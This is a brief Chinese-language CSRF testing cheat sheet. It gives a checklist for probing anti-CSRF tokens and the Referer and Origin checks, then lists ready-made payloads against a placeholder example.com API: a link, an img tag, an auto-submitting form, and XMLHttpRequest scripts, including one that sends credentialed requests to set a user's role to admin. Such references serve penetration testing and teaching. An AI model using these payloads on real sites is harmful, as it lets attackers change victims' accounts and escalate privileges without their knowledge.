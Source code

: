 	查看有无token等验证身份的参数，删掉后是否返回正常
	查看header中referer,origin参数，删掉后是否返回正常
	使用csrftester/burpsuite生成表单，以另一账号和浏览器打开测试
	去掉referer中域名后面的文件夹或文件
	替换二级域名
#### GET需要用户交互
  	<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
#### GET无用户交互
  	<img src="http://www.example.com/api/setusername?username=CSRFd">
#### POST需要用户交互
  	<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
	 <input name="username" type="hidden" value="CSRFd" />
	 <input type="submit" value="Submit Request" />
	</form>
#### POST无用户交互
	<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
	 <input name="username" type="hidden" value="CSRFd" />
	 <input type="submit" value="Submit Request" />
	</form>
	 
	<script>
	 document.getElementById("autosubmit").submit();
	</script>
#### JSON GET
	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("GET", "http://www.example.com/api/currentuser");
	xhr.send();
	</script>
#### JSON POST
	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("POST", "http://www.example.com/api/setrole");
	//application/json is not allowed in a simple request. text/plain is the default
	xhr.setRequestHeader("Content-Type", "text/plain");
	//You will probably want to also try one or both of these
	//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	//xhr.setRequestHeader("Content-Type", "multipart/form-data");
	xhr.send('{"role":admin}');
	</script>

	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("POST", "http://www.example.com/api/setrole");
	xhr.withCredentials = true;
	xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
	xhr.send('{"role":admin}');
	</script>
